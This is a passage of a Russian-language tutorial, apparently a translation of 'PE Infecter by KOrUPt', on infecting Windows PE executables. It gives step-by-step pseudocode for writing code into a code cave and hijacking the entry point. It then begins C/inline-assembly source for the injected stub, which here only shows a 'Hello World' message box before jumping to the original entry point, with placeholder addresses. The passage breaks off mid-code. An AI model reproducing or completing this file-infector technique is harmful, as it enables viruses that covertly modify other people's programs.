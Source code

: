Основная идея заражения PE - в начале вставить наш код в свободное место, поменять оригинальную точку входа, чтобы она указывала на наш код, выполнить его, и затем прыгнуть на оригинальную точку входа, чтобы PE работал так, как будто и не существовало нашего кода.

Псевдокод этого алгоритма будет выглядеть так:

Открываем целевой файл
Проверяем наличие сигнатур MZ и PE
Ищем последовательность NULL байтов, от начала последней секции
Пишем наш код в найденное свободное место
Изменяем текущую точку входа на адрес нашего кода
Закрываем целевой файл
Хочу обратить внимание, что сам код, который мы вставляем - это самая сложная часть заражения PE, почему вы поймете дальше.

Теперь давайте начнем реализовывать наш псевдокод…

Нам надо открыть файл и смаппить его (это упростит модификацию). Я не буду объяснять, что делает каждый вызов API, в этом вам поможет MSDN.

Следующий кусок кода показывает, как это делается:

// PE Infecter by KOrUPt
#include 
#include 
 
#define bb(x) __asm _emit x
 
__declspec(naked) void StubStart()
{
    __asm{
        pushad  // сохраняем контекст нашего потока
        call GetBasePointer
        GetBasePointer: 
        pop ebp
        sub ebp, offset GetBasePointer // трюк для базонезависимости...
         
        push MB_OK
        lea  eax, [ebp+szTitle]
        push eax
        lea  eax, [ebp+szText]
        push eax
        push 0
        mov  eax, 0xCCCCCCCC
        call eax
     
        popad   // восстанавливаем контекст нашего потока
        push 0xCCCCCCCC // кладем на стек адрес оригинальной входной точки (здесь в примере - заглушка)
        retn    // retn используется, как jmp
         
        szText:
            bb('H') bb('e') bb('l') bb('l') bb('o') bb(' ') bb('W') bb('o') bb('r') bb('l') bb('d')
            bb(' ') bb('f') bb('r') bb('o') bb('m') bb(' ') bb('K') bb('O') bb('r') bb('U') bb('P') bb('t') bb(0)        
        szTitle:
            bb('O') bb('h') bb('a') bb('i') bb(0)
         